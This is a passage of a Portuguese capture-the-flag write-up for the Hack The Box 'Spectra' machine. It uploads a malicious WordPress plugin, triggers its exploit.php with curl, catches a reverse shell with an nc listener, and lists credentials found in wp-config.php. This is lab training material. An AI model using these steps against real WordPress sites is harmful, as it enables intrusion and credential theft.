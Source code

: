 - Selecionar o arquivo zip recém-criado e clicar no botão *Install Now*

![HTB Spectra - Installed evilplugin.zip](https://i.imgur.com/sNlvuWi.png){: .align-center}

- Assim que o request for finalizado é importante fazer a requisição para o caminho dos arquivos em que o upload foi realizado. A linha de comando abaixo realiza o request usando `curl`, mas você pode deixar uma aba do browser preparada para realizar um GET nesta mesma URL

  ```bash
  curl -L http://spectra.htb/main/wp-content/plugins/evilplugin/exploit.php
  ```

Após este procedimento, deveremos receber um shell reverso na máquina conforme abaixo: :smiley:

```bash
$ nc -lnvp 4443
listening on [any] 4443 ...
connect to [10.10.10.10] from (UNKNOWN) [10.10.10.229] 43298
Linux spectra 5.4.66+ #1 SMP Tue Dec 22 13:39:49 UTC 2020 x86_64 AMD EPYC 7401P 24-Core Processor AuthenticAMD GNU/Linux
 08:41:48 up 4 min,  0 users,  load average: 0.26, 0.31, 0.17
USER     TTY        LOGIN@   IDLE   JCPU   PCPU WHAT
uid=20155(nginx) gid=20156(nginx) groups=20156(nginx)
nginx@spectra / $ id
id
uid=20155(nginx) gid=20156(nginx) groups=20156(nginx)
nginx@spectra / $
```

:bulb: **Dica:** Existem maneiras mais simples de alcançar este mesmo objetivo e ainda assim não utilizar o Metasploit. Uma ferramenta disponível no Github que pode auxiliar nesta tarefa é o [n00py/WPForce: Wordpress Attack Suite (github.com)](https://github.com/n00py/WPForce), que automatiza este e outros processos para exploração de websites em WordPress
{: .notice--info}

## User flag

Após acesso inicial na máquina, iniciada enumeração utilizando o script `linpeas.sh`, onde pude revisar diversas informações, conforme listado abaixo:

- User: **nginx**, sem privilégios específicos (`uid=20155(nginx) gid=20156(nginx) groups=20156(nginx)`)

- Sistema Operacional: **Chromium OS 11**.0_pre399094_p20200824-r6

- Publicação do conteúdo do nginx a partir do diretório `/usr/local/share/nginx/html` vide caminho dos arquivos `wp-config.php` onde as credenciais abaixo foram listadas:

  | site    | Username | Password      |
  | ------- | -------- | ------------- |
  | main    | dev      | development01 |
  | testing | devtest  | devteam01     |

- Users com console, sendo possíveis caminhos de elevação de privilégio, assim como seus privilégios:
